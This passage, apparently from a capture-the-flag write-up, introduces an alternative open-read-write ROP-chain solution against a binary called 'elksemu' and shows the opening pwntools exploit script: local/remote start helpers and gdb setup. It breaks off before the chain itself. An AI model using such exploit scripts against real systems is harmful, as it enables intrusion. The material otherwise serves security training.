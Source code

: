 On a side note: this solution has been proposed by one of my teammates. The original solution has been devised WITHOUT using the xchg gadget and WITHOUT opening a shell, thus using open-read-write chain. This can be done as a useful exercise to improve your skills. I report the code below as a reference for the reader.

### Alternative Solution: Open-Read-Write ROP Chain

This is an alternative solution that employs open-read-write without an xchg gadget. The code is very similar (it’s just much longer as it requires to set each syscall), but the original chain is a bit more complicated for each system call, and there is no need to reset the program :-).

```python
from pwn import *

#### USE launch.json to edit arguments
#### PROCESS INFORMATION ####

try:
    sh.close()
except:
    pass

#context.terminal = 'tmux'

# Insert process data here
context.clear(arch='amd64')
context.log_level = 'info'
context.terminal = ["tmux", "neww", "-n", "shell"]
filename = 'elksemu'

# Remote host information
host = args.HOST or '127.0.0.1'
port = int(args.PORT or 1616)

exe = context.binary = ELF(filename)
libc = exe.libc

#### PROCESS START HELPERS ####

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, api=True)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript, api=True)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

#### GDB SCRIPTING DATA ####
gdbscript = '''
tbreak main
continue
```
